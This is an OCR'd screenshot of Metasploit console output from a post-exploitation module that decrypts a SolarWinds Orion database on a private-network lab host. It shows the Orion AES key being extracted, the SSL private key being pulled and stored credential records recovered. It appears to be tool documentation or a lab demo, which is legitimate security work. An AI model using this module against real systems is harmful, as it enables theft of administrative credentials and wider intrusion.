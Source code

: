 ```
[+] Encrypted SolarWinds Orion Database Dump: /root/.msf4/loot/20221118091938_default_192.168.101.125_solarwinds_orion_412973.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > set CSV_FILE /root/.msf4/loot/20221118091938_default_192.168.101.125_solarwinds_orion_412973.txt
CSV_FILE => /root/.msf4/loot/20221118091938_default_192.168.101.125_solarwinds_orion_412973.txt
msf6 post(windows/gather/credentials/solarwinds_orion_dump) > decrypt 

[*] Hostname WINNING IPv4 192.168.101.125
[*] SolarWinds Orion Build 2020.2.65120.0
[*] SolarWinds Orion Install Path: C:\Program Files (x86)\SolarWinds\Orion\
[*] Init SolarWinds Crypto ...
[+] Orion AES Encryption Key
[+]     HEX: 2F627B78981DEADE0447CC7BDDEADE4E84FCB96AF1C6DEAD621F28547E93A82
[*] Extract SolarWinds Orion SSL Certificate Private Key ...
[*] Performing decryption of SolarWinds Orion SQL database
[+] 10 rows loaded, 6 unique CredentialIDs
[*] Process SolarWinds Orion DB ...
[+] 10 rows processed
[*] 10 rows recovered: 6 plaintext, 4 decrypted (0 blank)
[*] 10 rows written (0 blank rows withheld)
[+] 6 unique CredentialID records recovered
[+] Decrypted SolarWinds Orion Database Dump: /root/.msf4/loot/20221118091959_default_192.168.101.125_solarwinds_orion_687493.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/solarwinds_orion_dump) >
```
